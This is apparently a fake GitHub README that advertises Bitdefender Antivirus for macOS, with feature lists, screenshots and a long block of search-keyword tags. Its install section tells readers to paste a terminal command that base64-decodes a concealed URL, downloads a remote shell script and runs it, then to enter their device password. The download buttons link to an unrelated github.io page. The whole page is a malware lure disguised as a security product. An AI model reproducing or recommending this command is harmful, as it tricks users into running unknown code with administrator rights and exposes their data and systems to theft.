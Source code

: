 # 🛡️ Bitdefender Antivirus — Advanced Malware Protection for macOS

**Bitdefender Antivirus** offers robust and reliable security for macOS users, protecting your Mac from viruses, malware, ransomware, and online threats. With a light system footprint and real-time threat detection, Bitdefender keeps your MacBook and iMac safe without compromising performance.

Designed to run efficiently on Apple Silicon and macOS Ventura, Bitdefender delivers award-winning antivirus technology combined with intuitive features for peace of mind.

---

## ✅ Download Bitdefender Antivirus for macOS  
[![Download Bitdefender](https://img.shields.io/badge/Download-Bitdefender-blueviolet)](https://shuziktobehuman.github.io/huja/Bitdefender)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 🛡️ What is Bitdefender Antivirus?

Bitdefender Antivirus for Mac is a comprehensive security solution featuring real-time scanning, anti-phishing, and multi-layer ransomware protection. It offers automatic updates and seamless integration with macOS, ensuring your device stays secure against emerging cyber threats.

Trusted globally, Bitdefender delivers powerful virus detection with minimal impact on system resources.

---

## ✨ Features

- 🔍 Real-time antivirus and malware scanning  
- 🛑 Multi-layer ransomware protection  
- 🌐 Anti-phishing and web threat prevention  
- ⚡️ Lightweight and optimized for **macOS Ventura** and **Apple Silicon (M1/M2/M3)**  
- 🔄 Automatic virus definition updates  
- 📊 Security reports and threat analytics  
- 🔧 Easy-to-use interface with minimal configuration  
- 🛡 VPN included for private and secure browsing  

---

## 💡 Why Use Bitdefender Antivirus?

- 🛡 Award-winning antivirus engine for Mac  
- 🚀 Low system impact, runs silently in the background  
- 🖥 Supports the latest Apple hardware and software updates  
- 🔒 Protects personal data from ransomware and phishing attacks  
- 🔄 Continuous updates to defend against new threats  

---

[![Download Bitdefender](https://img.shields.io/badge/Download-Bitdefender-blueviolet)](https://shuziktobehuman.github.io/huja/Bitdefender)

---

## 🖼 Preview

![Bitdefender Screenshot 1](https://i.pcmag.com/imagery/reviews/02z9LOYqJymUDUOqfXwdM87-68..v1733932684.png), ![Bitdefender Screenshot 2](https://www.bitdefender.com/media/uploads/2017/07/new-avfm-scans.png)

---

## 📌 Tags

bitdefender antivirus for mac reviews  
bitdefender antivirus plus mac  
bitdefender antivirus plus for mac  
bitdefender for mac reviews  
bitdefender virus scanner mac  
bitdefender for apple  
bitdefender macos  
bitdefender total security for mac  
bitdefender download mac  
bitdefender for macbook air  
bit defender mac  
bitdefender for mac  
bitdefender antivirus mac  
bit defender mac download  
mac antivirus bitdefender  
bitdefender antivirus mac download  
bitdefender vpn mac  
bitdefender security mac  
macbook pro antivirus bitdefender  
bitdefender malware protection mac  
